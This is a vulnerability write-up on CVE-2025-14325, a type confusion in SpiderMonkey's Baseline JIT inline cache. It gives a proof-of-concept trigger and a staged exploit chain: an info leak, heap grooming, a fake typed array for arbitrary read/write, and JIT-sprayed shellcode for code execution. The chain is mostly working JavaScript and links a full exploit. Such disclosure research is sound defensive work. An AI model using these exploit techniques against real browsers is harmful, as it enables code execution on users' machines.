









---
title: "CVE-2025-14325: SpiderMonkey Type Confusion in Baseline JIT Inline Cache"
date: 2026-03-28
draft: false
---




*This image was created by [Suto](https://x.com/__suto) that captures the challenge of finding the right path. It is a process of constant testing, failing, and learning until we eventually find the way out* 

Last year, we started looking at Firefox, focusing on its JavaScript engine, SpiderMonkey. During that work, we found several vulnerabilities, and reported them to the vendor. In this post we will share a journey of one of those findings. Technically, we discovered this bug using AI-assisted fuzzing by asking Claude Code to analyze the actively being developed **TypedArray resizable feature**. After that we iteratively enhanced our fuzzing framework to cover all aspects of that feature in the entire commit history. Hopefully everyone enjoys it. 

### Introduce about the attack surface and the component

Like all modern JS engines, SpiderMonkey uses a multi-tier architecture to balance startup latency against peak throughput. JavaScript code progresses through increasingly optimized execution tiers as it gets hotter:



*SpiderMonkey JIT tiers*

The vulnerability lives in the Baseline JIT tier, specifically in the mechanism it uses to speed up property operations at runtime: **inline caches**

#### What Are Inline Caches?

An inline cache (IC) is a technique that caches the result of a dynamic operation directly at the call site. Instead of performing a full property lookup every time `obj.x = value` executes, the IC remembers: “*last time the object had Shape S1, property x was at slot 5 and on subsequent calls with the same shape, it writes directly to slot 5 without any lookup*”.

SpiderMonkey’s Baseline JIT implements ICs as a *stub chain*, a linked list of small machine code fragments, each specialized for a particular object shape:



*Inline Cache flow*

When *JIT-compiled code* encounters a property operation it does not yet have a matching stub for, execution falls through to the fallback stub. The fallback stub leaves JIT code, enters the C++ VM, executes the operation on the full slow path, and may then attach a specialized stub to speed up later executions. 

The first few executions of a property operation are slow because they pass through the fallback stub. After the inline cache warms up with stubs for common object shapes, later executions can be handled in just a few machine instructions.

#### The IC Fallback Handlers

The fast path depends on the fallback stub doing the right work during the early executions. To see how new stubs are created and attached, we now look at the IC fallback handlers.  
   
For property/element store operations, two functions handle the fallback:



*Fallback table*

Both are defined in *js/src/jit/BaselineIC.cpp*. Despite handling different bytecodes, they share the same two-shape structure that is central to this vulnerability.

```c++
// Simplified from BaselineIC.cpp (DoSetElemFallback, line 843)  
                                                                                            
bool DoSetElemFallback(JSContext* cx, BaselineFrame* frame,                                  
                       ICFallbackStub* stub, Value* stack,                                   
                       HandleValue objv, HandleValue index,                                  
                       HandleValue rhs) {                        
                                                                                            
 RootedObject obj(cx, ToObjectFromStack(cx, objv, index));  
                                                                                            
 // ──── Phase 1: Snapshot the object's current shape ────                                  
 Rooted<Shape*> oldShape(cx, obj->shape());   // [1]  
                                                                                            
 DeferType deferType = DeferType::None;                         
 bool attached = false;                                                                     
                                                                
 // Try to attach a stub before the operation                                               
 if (stub->state().canAttachStub()) {  
   SetPropIRGenerator gen(cx, script, pc, CacheKind::SetElem,                               
                           stub->state(), objv, index, rhs);                                 
   switch (gen.tryAttachStub()) {                // [2]  
     case AttachDecision::Attach:   /* ... */  break;                                       
     case AttachDecision::Deferred:                                                         
       deferType = gen.deferType();              // [3] remember for later                  
       break;                                                                               
     // ...                                                                                 
   }                                                            
 }  
                                                                                            
 // ──── Execute the actual VM operation ────  
 SetObjectElementWithReceiver(cx, obj, index, rhs, objv);  // [4]                           
 //       ↑ This can call valueOf(), toString(), Proxy traps...                             
 //         Arbitrary JavaScript can execute here!                                          
                                                                                            
 // ──── Phase 2: Deferred stub attachment ────                                             
 if (deferType == DeferType::AddSlot) {          // [5]                                     
   SetPropIRGenerator gen(cx, script, pc, CacheKind::SetElem,                               
                           stub->state(), objv, index, rhs);     
   gen.tryAttachAddSlotStub(oldShape);           // [6]                                     
   // ...  
 }                                                                                          
}

```

The key steps are:

**[1] Snapshot**:   
The object’s current shape is saved as `oldShape` before anything happens. 

**[2-3] First attachment attempt**:   
The IC generator tries to attach a stub. If the operation is adding a new property (changing the shape), it defers. It can’t generate the stub yet because the operation hasn’t happened and it doesn’t know the new shape. 

**[4] VM execution**:   
The actual property operation runs through the full VM path. This is where the engine converts values, resolves property keys, and performs the store. Critically, this step can **execute JavaScript callbacks** through type conversion callbacks.

**[5-6] Deferred attachment**:   
After the VM operation completes, if a stub was deferred `tryAttachAddSlotStub(oldShape)` runs. It compares the saved `oldShape` against the object’s current shape to confirm that exactly one property was added, then generates a fast stub for that transition.

#### The re-entrancy window

The gap between **[1]** (saving `oldShape`) and **[6]** (attaching the stub) is the attack surface. During step **[4]**, the VM operation can invoke user-controlled JavaScript. If that JavaScript mutates the object or its backing storage in unexpected ways, the assumptions that `tryAttachAddSlotStub` relies on is “a native property was just added to this object” may no longer hold.

Timeline during DoSetElemFallback:  



*Demonstrate a re-entrancy window*

In this vulnerability, the `valueOf()` callback calls `SharedArrayBuffer.prototype.grow()`, which expands a resizable typed array’s length. This causes an index that was previously out-of-range to become a valid typed array element, so the property lookup result (`PropertyResult`) records a `TypedArrayElement` instead of the `NativeProperty` that the IC attachment logic expects.

The function `tryAttachAddSlotStub` then calls `prop.propertyInfo()` on this result without checking its kind, triggering the type confusion that is the root cause of this bug.

### The vulnerability

The previous section established that tryAttachAddSlotStub runs after the VM operation completes, and that arbitrary JavaSCript can execute during that operation via callbacks like `valueOf()`. This section explains exactly what goes wrong inside that function. 

#### The PropertyResult Union

When SpiderMonkey looks up a property on an object, the result is stored in a `PropertyResult` object. Internally, it uses a C++ union to hold one of several possible outcomes:

```c++

// js/src/vm/PropertyResult.h                                    
class PropertyResult {                                                                       
 enum class Kind : uint8_t {  
   NotFound,                                                                                
   NativeProperty,      // propInfo_ is valid                   
   NonNativeProperty,                                                                       
   DenseElement,        // denseIndex_ is valid  
   TypedArrayElement,   // typedArrayIndex_ is valid                                        
 };                                                             
                                                                                            
 union {  
   PropertyInfo propInfo_;      // uint32_t (32 bits)                                       
   uint32_t denseIndex_;        // uint32_t (32 bits)           
   size_t typedArrayIndex_;     // size_t (64 bits on x86-64)                               
 };  
                                                                                            
 Kind kind_ = Kind::NotFound;                                   
}; 

```

The `kind_` field tracks which union member is active. Accessing the wrong member is undefined behavior and results in type confusion, the raw bytes of one type get reinterpreted as another.

The accessor propertyInfo() has a debug-only guard:

```c++

PropertyInfo propertyInfo() const {                                                          
 MOZ_ASSERT(isNativeProperty());   // compiled out in release!  
 return propInfo_;  
}
```
`
Since `propInfo_` (32-bit) and `typedArrayIndex_` (64-bit) share the same starting address, calling `propertyInfo()` on a `TypedArrayElement` result reinterprets the lower 32 bits of the index as a `PropertyInfo`.

A `PropertyInfo` packs a slot number and flags into a `uint32_t` representation. So the controlled index directly determines the slot the IC stub will target:

```c++

class PropertyInfoBase {  
 static_assert(std::is_same_v<T, uint32_t> || std::is_same_v<T, uint16_t>);

 static constexpr uint32_t FlagsMask = 0xff;  
 static constexpr uint32_t SlotShift = 8;

 T slotAndFlags_ = 0;  
  /*  
 bits 0-7: flags  
 bits 8-31: slot number  
 ...  
 */  
};

```

#### The Type Confusion

The vulnerability function `tryAttachAddSlotStub` performs a fresh property lookup after the VM operation has completed:

```c++

PropertyResult prop;                                             
LookupOwnPropertyPure(cx_, obj, id, &prop);        // [7] fresh lookup

PropertyInfo propInfo = prop.propertyInfo();         // [8] TYPE CONFUSION                   
// ...  
MOZ_RELEASE_ASSERT(newShape->lastProperty() == propInfo);  // [9] guard                      
                                                                
// [10] slot number baked into IC stub:                                                       
size_t offset = holder->dynamicSlotIndex(propInfo.slot()) * sizeof(Value);  
writer.allocateAndStoreDynamicSlot(objId, offset, rhsValId, newShape, numNewSlots);

```


At **[7]**, the lookup calls `NativeLookupOwnPropertyInline`, which checks typed array bounds:

```c++

if (obj->is<TypedArrayObject>()) {                               
 if (mozilla::Maybe<uint64_t> index = ToTypedArrayIndex(id)) {  
     if (index.value() < obj->as<TypedArrayObject>().length().valueOr(0))                 
         propp->setTypedArrayElement(index.value());  // in-range  
     else                                                                                 
         propp->setTypedArrayOutOfRange();             // out-of-range  
 }                                                                                        
}
```


If `valueOf()` grew the `SharedArrayBuffer` during the VM operation, the index that was out-of-range before is now in range, and the lookup returns `TypedArrayElement` instead of `NativeProperty`.

At **[8]**, the release build blindly reads `propInfo_`, and at **[10]**, the corrupted slot number is baked into the IC stub.

#### Bypassing the MOZ_RELEASE_ASSERT

The guard at **[9]** compares the confused propInfo against the object’s last property. To pass it, the lower 32 bits of `typedArrayIndex_` must equal that property’s `slotAndFlags_`. For example, adding `arr.x = 1` creates a property at **slot 7** with default flags 0x07, giving `slotAndFlags_ = 0x707`. We can use equal element index to match it:


```js
// lower32(typedArrayIndex_) must equal 0x707  
// → typedArrayIndex_ = 0x100000707  
// → JavaScript index = 0xffffffff + 0x708                                                   
arr[0xffffffff + 0x708] = obj;

```

#### Proof of Concept 

The result is a persistent IC stub that allocates and writes to a slot index derived from the controlled typed array index. It creates an undefined behavior on the object’s dynamic slot buffer.

```js
function trigger() {  
   let sab = new SharedArrayBuffer(0x28, { maxByteLength: 0x100000800 });  
   let arr = new Uint8Array(sab);                                                           
    const obj = {                                                                            
       valueOf() { sab.grow(0x100000800); }  // grow mid-operation  
   };                                                                                       
    arr.x = 1;                      // lastProperty().slotAndFlags_ = 0x707                  
   arr[0xffffffff + 0x708] = obj;  // lower32(0x100000707) = 0x707 ✓  
}                                                                                            
 for (let i = 0; i < 10; i++) trigger();  // warm up IC                                       
trigger();                                // 11th call: corrupted stub attaches  
  
```

### Exploitation scenario

With the type confusion understood, this section walks through how the bug is turned into a full exploit, from the initial undefined behavior to arbitrary code execution.

#### How the garbage collection works on SpiderMonkey

First, we briefly review how garbage collection works in SpiderMonkey. SM’s garbage collector splits memory into a **nursery** for newly allocated objects and **tenured** heap space for longer-lived ones. Most short-lived objects die young, so the nursery can be collected quickly, surviving objects are promoted to tenured storage, where less frequent but more expensive tracing and compaction happen.  

**Minor GC** collects the nursery. When the bump-pointer allocator cannot satisfy a request, *Nursery::handleAllocationFailure()* returns a GC reason, and the allocator calls *GCRuntime::minorGC()* which delegates to *Nursery::collect()*. This traces nursery roots, copies surviving objects into the tenured heap, and resets the bump pointer. 

```c++

// js/src/gc/Nursery.cpp  
MOZ_NEVER_INLINE JS::GCReason Nursery::handleAllocationFailure() {  
 if (minorGCRequested()) {  
   // If a minor GC was requested then fail the allocation. The collection is  
   // then run in GCRuntime::tryNewNurseryCell.  
   return minorGCTriggerReason_;  
 }  
// ..  
}

// js/src/gc/GC.cpp  
void GCRuntime::minorGC(JS::GCReason reason, gcstats::PhaseKind phase) {  
 MOZ_ASSERT(!JS::RuntimeHeapIsBusy());

 MOZ_ASSERT_IF(reason == JS::GCReason::EVICT_NURSERY,  
               !rt->mainContextFromOwnThread()->suppressGC);  
 if (rt->mainContextFromOwnThread()->suppressGC) {  
   return;  
 }

 incGcNumber();

 collectNursery(JS::GCOptions::Normal, reason, phase);  
 //...  
}  
// js/src/gc/GC.cpp  
void GCRuntime::collectNursery(JS::GCOptions options, JS::GCReason reason,  
 gcstats::PhaseKind phase) {  
   //...

   nursery().collect(options, reason);  
   //...  
}

// js/src/gc/Nursery.cpp  
void js::Nursery::collect(JS::GCOptions options, JS::GCReason reason) {  
 //...  
}

```

In the standard js, we can trigger this directly:

```js
// Force nursery collection — all surviving objects move to the tenured heap  
function minor_gc() {
  for (let i = 0; i < 0x1e6; i++) ({});
}
```

**Major GC** collects the tenured heap through mark-sweep. It is driven by GCRuntime::collect(), which runs one or more incremental slices via gcCycle(). 

```c++
void GCRuntime::collect(bool nonincrementalByAPI, const SliceBudget& budget,  
 JS::GCReason reason) {  
 //...  
}

/*  
* We disable inlining to ensure that the bottom of the stack with possible GC  
* roots recorded in MarkRuntime excludes any pointers we use during the marking  
* implementation.  
*/  
MOZ_NEVER_INLINE GCRuntime::IncrementalResult GCRuntime::gcCycle(  
 bool nonincrementalByAPI, const SliceBudget& budgetArg,  
 JS::GCReason reason) {  
 //...  
}

```

Major GC is triggered by three main conditions:

* **ALLOC_TRIGGER**: after each arena allocation, `maybeTriggerGCAfterAlloc()` compares the zone’s heap size against its threshold via `checkHeapThreshold()`. When `usedBytes >= thresholdBytes` it calls `triggerZoneGC()`:


```js
// Allocating many tenured objects eventually pushes the zone past its threshold  
let arr = [];                                                                                
for (let i = 0; i < 1000000; i++) arr.push(new ArrayBuffer(256));

```

* **TOO_MUCH_MALLOC**: when heap memory (e.g., `ArrayBuffer` backing stores) exceeds the zone’s malloc threshold, `maybeTriggerGCAfterMalloc()`  triggers a zone GC. This only fires when `heapState() == Idle`: 

```js
// The technique used in the exploit — large ArrayBuffers push malloc heap past threshold  
function do_gc() {                                                                           
 for (var i = 0; i < 3; i++) var x = new ArrayBuffer(128 * 0x100000);                     
}
```

* **LAST_DITCH**: when a tenured cell allocation fails entirely, `RetryTenuredAlloc()` calls `attemptLastDitchGC()`, which runs a full shrinking GC as a last resort before reporting **OOM**:

```c++
// Allocator.cpp:236  
void GCRuntime::attemptLastDitchGC() {                                                       
 JS::PrepareForFullGC(rt->mainContextFromOwnThread());  
 gc(JS::GCOptions::Shrink, JS::GCReason::LAST_DITCH);                                     
}
```

#### Stage 1: Information Leak

Recall from the root cause that the confused IC stub operates on the wrong slot index. We can control how many named properties are added which determines the slot number baked into the IC stub.

```js
function jitme() {  
 let maxLength = 0x200000000;                                                               
 let lastIdx = 0x20;                                                                        
 let confused_index = 0x100000000 + ((lastIdx << 8) + 0x7);                                 
 let sab = new SharedArrayBuffer(0x10, {maxByteLength: maxLength});                         
 const dataArray = new Uint8Array(sab);                                                     
                                                                                            
 const obj1 = {                                                                             
   valueOf() {                                                                              
     // Add 26 named properties during valueOf                  
     for (let i = 0; i < lastIdx - 6; i++) {                                                
       dataArray[`a_${i.toString(16).padStart(3, '0')}`] = i;                               
     }                                                                                      
     sab.grow(confused_index + 1);                                                          
   }                                                                                        
 };                                                           

 dataArray[confused_index] = obj1;    
 // dumpObject(dataArray);     
                                                        
  // These named property reads go through the corrupted IC stub,                            
 // which reads the garbage pointers            
 return [dataArray["a_002"], dataArray["a_007"]];                                           
}; 

```

The value `lastIdx = 0x20` controls the confused `PropertyInfo` slot number. Since `confused_index = x100000000 + ((0x20 << 8) + 0x07)`, the lower 32 bits are `0x2007`, which the IC stub interprets as slot 0x20 default data property flags 0x07. 

When the IC stub fires, it needs to allocate a dynamic slot buffer large enough to hold slot 32. The buffer capacity is determined by `NativeObject::calculateDynamicSlots()`, which rounds the total allocation up to the next power of 2 via `GetGoodPower2ElementCount`.

```c++
// js/src/vm/JSObject-inl.h:46  
/* static */ uint32_t NativeObject::calculateDynamicSlots(                                   
 uint32_t nfixed, uint32_t span, const JSClass* clasp) {  
   if (span <= nfixed) { return 0; }                                                          
   uint32_t ndynamic = span - nfixed;                                                         
    if (clasp != &ArrayObject::class_ && ndynamic <= SLOT_CAPACITY_MIN) {                      
     return SLOT_CAPACITY_MIN;   // minimum capacity: 6           
   }                                                                                          
    uint32_t count = gc::GetGoodPower2ElementCount(                                            
       ndynamic + ObjectSlots::VALUES_PER_HEADER, sizeof(Value));  
   return count - ObjectSlots::VALUES_PER_HEADER;                                             
 }  
/*  
* Slots header used for native objects. The header stores the capacity and the  
* slot data follows in memory.  
*/  
class alignas(HeapSlot) ObjectSlots {  
 uint32_t capacity_;  
 uint32_t dictionarySlotSpan_;  
 uint64_t maybeUniqueId_;  
 //...
}

```

Each allocation includes a 16-bytes ObjectSlots header, so the total size is `(capacity + 2)*8` bytes. This produces a capacity sequence: `6 => 14 => 30 => 62 => … `. For slot 32, the allocated capacity jumps to 62, yielding a 512-byte buffer.

Because the corrupted IC stub only writes the **last property** via `AllocateAndStoreDynamicSlot`, the remaining slots 0=>31 in the freshly allocated buffer retain **stale heap data** from previously freed objects. Reading these uninitialized slots through named properties like `dataArray["a_002"]` leaks raw pointers, which the exploit uses to defeat ASLR.



*Showing stale heap data by dumpObject after optimizing*

#### Stage 2: Heap Spray and Grooming 

With leaked addresses, the exploit needs a write primitive to leverage shellcode. Basically, our idea is using the **spray-free-reallocate** concept.

```js
function write_shellcode(shape_addr, elements_addr) {            
 let sprayArray = [];  
 const spraying1_count = 16;                                                                
 // Phase 1: Spray SharedArrayBuffers with controlled properties                            
 for (let i = 0; i < spraying1_count; i++) {                    
   let [value1, arr] = spray_write();                                                       
   sprayArray.push(arr);                                                                    
 }                                                                                          
                                                                                            
 // Phase 2: Free them all to create holes                                                  
 for (let i = 0; i < spraying1_count; i++) {                    
   delete sprayArray[i];                                                                    
 }                                                              
 delete sprayArray;  
 do_gc();   // Trigger GC to actually reclaim the memory                                    
 // Phase 3: Reallocate — the target object fills one of the holes                          
 const [targeted_obj, value2] = spray_write();                  
                                                                                            
 // Phase 4: Spray ArrayBuffers with inline data (96 bytes each)                            
 const sprayArray2 = [];                                                                    
 for (let i = 0; i < 208; i++) {                                                            
   let arr = new ArrayBuffer(0x60);                                                         
   arr[0] = 0x13381338;  
   arr.x = i2f(0x13391339n);                                                                
   sprayArray2.push(arr);                                                                   
 }  
 // modify something  
 const last_arr = new ArrayBuffer(0x60);  
 // ...                                                                                     
}
```

The `do_gc()` function is carefully crafted to trigger a non-compacting full GC. A compacting GC would move objects and fill the holes unpredictably. Instead, it triggers the `TOO_MUCH_MALLOC` condition by allocating large `ArrayBuffers`.

The second spray allocates 208 `ArrayBuffer(0x60)` objects. Since each `ArrayBuffer` is 96 bytes with INLINE_DATA, the buffer contents are stored directly in the object’s fixed slots, placing spray data inside the GC heap at predictable offsets from the leaked addresses.

At that point, `targeted_obj` memory layout is overlapped with the `last_arr`. One object starts at 0x088, and the other memory pointer at 0x090 as this image below showing:



*Demonstrate memory overlap*

Take at look at memory layout (slightly different address but keeping the same offset):



*Overlap memory layout in pwndbg*

#### Stage 3: Fake Object Construction

   
The `spray_write()` function uses a second `valueOf()` trick to write controlled data into `SharedArrayBuffer's` named properties.


```js
function spray_write() {                                         
 // ... (trigger bug similar to jitme) ...  
                                                                                            
 const obj2 = {  
   valueOf() {                                                                              
     for (let i = 0; i < 11; i++) {                                                         
       if (i == 1) {  
         let view = new Uint32Array(0x10);                                                  
         view[2] = 0x13371337;                                                              
         view[3] = 0xfffe4343;  
         arr[i] = view;                                                                     
       } else {                                                 
         arr[i] = i2f(0x41414142n);                                                         
       }                                                        
     }                                                                                      
   }                                                            
 };

 dataArray[confused_index] = obj1;  //                      
 dataArray[0] = obj2;               //   
}
```


The exploit constructs a fake Uint32Array object inside an ArrayBuffer’s inline data region:


```js
const last_arr = new ArrayBuffer(0x60);  
const write_arr = new Uint32Array(last_arr);

// Write a fake NativeObject header into the ArrayBuffer's inline data:  
// [shape pointer][slots pointer][elements pointer]...[data pointer][length]

// Fake shape — points to a real Uint32Array shape in the GC heap  
write_arr[0] = Number(uint32_shape_addr & 0xFFFFFFFFn);  
write_arr[1] = Number(uint32_shape_addr >> 32n);

// Fake slots — points to a controlled memory region  
write_arr[2] = Number(slots_addr & 0xFFFFFFFFn);  
write_arr[3] = Number(slots_addr >> 32n);

// Fake elements  
write_arr[4] = Number(elements_addr & 0xFFFFFFFFn);  
write_arr[5] = Number(elements_addr >> 32n);

// Fake data pointer — points to wherever we want to read/write  
write_arr[0xc] = Number(data_pointer & 0xFFFFFFFFn);  
write_arr[0xd] = Number(data_pointer >> 32n);

// Fake length — large enough for arbitrary access  
write_arr[8] = 0x100;

```

The fake object is laid out in `last_arr’s` inline data, which sits at a known address. It has:

- A **shape pointer** borrowed from a real `Uint32Array`, so the engine treats it as a legitimate typed array.  
- A **data pointer** pointing to attacker-chosen memory.  
- A **length** of 0x100, giving a wide read/write window


The exploit use overlap memory layout at stage 2 to set properties on targeted_obj that convert `last_arr` to a `WeakRef` shape:

```js
targeted_obj.x = i2f(weak_ref_shape); // change last_arr's shape to weak_ref_shape  
targeted_obj.y = i2f(0x890n);  
const fake_obj = last_arr.deref(); // deref last_arr to get the fake object
```


By corrupting `last_arr’s` shape, calling `.defer()` causes the engine to return a reference to the fake `Uint32Array`, a **fully controlled** object.


#### Stage 4: Arbitrary Code Execution

With a fake `Uint32Array` whose data pointer and length are controlled, the exploit has an arbitrary read/write primitive. The final step is to hijack control flow:

```js
// JIT-compile the shellcode function so it lives in executable memory  
for (let i = 0; i < 100000; i++) {                                                           
 shellcode();  
}                                                                                            
                                                                
// The shellcode function's JIT code is at a known offset from the leaked shape              
// Overwrite a code pointer to redirect to our constants         
fake_obj[0] = fake_obj[0] + 0x2b8;  // Patch JIT code entry point                            
                                                                                            
// Calling shellcode() now executes attacker-controlled machine code                         
shellcode();

The shellcode() function is designed with float constants that encode x86-64 machine instructions:

function shellcode() {                                           
 EGG = 5.40900888e-315;          // 0x41414141 — marker                                     
 C01 = 7.340387646374746e+223;   // encoded machine code                                    
 C02 = -5.632314578774827e+190;                                                             
 // ...                                                                                     
}

```

When Warp JIT compiles this function, these constants are embedded directly in the generated machine code as immediate values. By patching the function’s entry point to jump into the middle of memory, the CPU executes our shell code instruction immediately on **x86-64** architecture.

#### Demo

This image demonstrates the full exploit running against the js shell:



This is a [full exploit](CVE-2025-14325.js)

### Conclusion

This blog demonstrates the typical journey from a JIT failure to arbitrary code execution in the SpiderMonkey shell. The root cause highlights a common attack surface in browser engines that newly introduced features interact unsafely with long-established code where assumptions written years earlier no longer hold. 


### References

- https://phoenhex.re/2017-06-21/firefox-structuredclone-refleak  
- https://www.exploit-db.com/exploits/46646  
- https://www.sentinelone.com/labs/firefox-jit-use-after-frees-exploiting-cve-2020-26950/
